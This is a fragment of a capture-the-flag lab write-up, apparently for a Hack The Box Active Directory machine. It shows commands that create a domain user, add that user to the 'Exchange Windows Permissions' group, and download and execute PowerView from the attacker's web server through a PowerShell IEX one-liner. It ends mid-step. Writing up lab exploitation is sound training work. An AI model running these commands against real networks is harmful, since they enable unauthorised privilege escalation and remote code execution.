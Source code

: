 ![](attachment/16fa860173c2c20102c4a2e5b7896198.png)
Using nslookup to lookup Ip of exch01.htb.local we find that it is dead after trying to ping it from svc-alfresco

We discover that we have adding account permission:
`net user aditya aditya123@ /add /domain`
So adding to Windows exchange permissions group we discovered in bloodhound:
`net group "Exchange Windows Permissions" /add aditya`

Now using powersploit powerview:
Using python3 webserver to host now
`IEX(New-Object Net.WebClient).downloadString('http://10.10.14.22/PowerView.ps1')`
Using bloodhound for commands: